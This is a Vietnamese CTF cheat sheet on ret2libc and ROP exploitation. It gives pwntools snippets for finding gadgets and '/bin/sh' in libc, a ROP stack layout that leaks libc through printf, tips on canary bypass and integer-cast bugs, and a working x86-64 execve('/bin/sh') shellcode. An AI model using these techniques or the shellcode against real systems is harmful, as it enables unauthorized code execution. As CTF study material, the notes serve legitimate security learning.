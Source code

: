 # ret2libc-ROP

- Overview:
   * pwntools '/bin/sh':
    ```python
    next(libc.search(b'/bin/sh'))
    ```
   * [Tools local find offset LIBC](https://x3ero0.tech/posts/orxw_balsn_ctf_2021_pwn/) .
   * Trong libc.so.6 có mọi gadgets, đôi khi không thể dùng tools để tìm được 1 số gadgets.
       + VD: `syscall ; ret` [dicectf 2023 - bop].
       + gadget push rax;ret
       + jmp rsp
       + ...
   ```python
   import pwn
   rop = pwn.ROP(libc, base=<address_overwrite>)
   rop.call(rop.find_gadget(["syscall", "ret"]))
   print(rop.dump())
   ```
   * Từ Ubuntu 18.04 trở đi, nếu việc thực thi thất bại tại những hàm như buffered_vfprintf() hay do_system() trong những file thực thi 64 bit là do ngay trước câu lệnh ret, đầu vùng nhớ stack được cấp phát 16 bytes cho việc gọi lệnh tại return address nên để thực thi được thì cần chèn thêm 1 ROPgadget "ret" vào trước câu lệnh cần thực thi để bỏ đi 1 stack 8 bytes đầu tiên và thực thi câu lệnh này nằm ở stack ngay sau đó.
    ```
    STACK:
    1. địa chỉ lệnh "ret"
    2. địa chỉ lệnh "pop rdi, ret"
    3. địa chỉ lưu chuỗi 
    4. địa chỉ hàm gets

    5. địa chỉ lệnh "ret"
    6. địa chỉ lệnh "pop rdi, ret"
    7. địa chỉ muốn được in (đọc chuỗi)
    8. địa chỉ hàm printf 
    # leak = printf thì sau printf lại phải dùng ret
    9. địa chỉ lệnh "ret"
    10. địa chỉ nào đó muốn return về.
    ```
    * Vậy nên để bypass tránh việc ghi đè canary ta chỉ cần nhập chữ cái (+, -, *, /) mà không thuộc format %lu thì phần tử đó sẽ bị skip, không thay đổi. VD: chall `Warmup` - UIT-2022-CTF . 
    * Lỗi ép kiểu là khi khai báo biến x là long (8 byte) nhưng khi xử lý điều kiện ép kiểu nó thành int (4 byte) dẫn đến sai về mặt giá trị so sánh (trên thanh ghi) => bug
    * Leak được LIBC thì có thể leak được stack thông qua biến environ trong LIBC.
    * Viết sheelcode cần set context.binary

    ```python
    ...
    elf = ELF('./vuln')
    context.binary = elf
    p = elf.process()
    ...

    shellcode = asm('''
         instruction assembly
         ...
    ''')

    OR

    context.arch = 'amd64'
    shellcode = asm(
        f'''
        xor rdi, rdi
        push rdi
        mov rdi, 0x68732f2f6e69622f
        push rdi
        mov rdi, rsp
        xor rdx, rdx
        xor rsi, rsi
        xor rax, rax
        add al, 0x3b
        syscall
        ''')
    ```


- Technique:
    * [CTF: No leak - close(fd)](https://blog.idiot.sg/2018-09-03/tokyowesterns-ctf-2018-load-pwn/) .
    * [CTF: BlindROP](https://soolidsnake.github.io/2018/07/15/blindx86_64_rop.html) .
    * BRUTEFORCE - `TWOSHOT - KMACTF2022` * ...

